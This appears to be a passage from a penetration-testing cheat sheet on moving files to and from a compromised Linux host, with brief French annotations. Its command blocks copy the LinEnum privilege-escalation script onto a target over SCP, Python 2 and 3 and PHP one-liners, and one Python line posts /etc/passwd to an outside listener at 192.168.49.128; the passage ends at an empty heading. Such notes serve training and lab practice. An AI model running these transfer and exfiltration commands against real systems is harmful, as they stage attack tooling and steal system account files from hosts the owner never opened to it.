 # SSH UPLOAD
## SCP 

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
```


---

# DATA TRANSFER WITH CODE

## PYTHON

### DOWNLOAD

#### Python 2 - Download

```shell
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### Python 3 - Download

```shell
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

### UPLOAD

lancer serveur
```shell
python3 -m uploadserver
```

upload
```shell
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```


## PHP
### DOWNLOAD
#### PHP Download with File_get_contents()

```shell
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
#### PHP Download with Fopen()
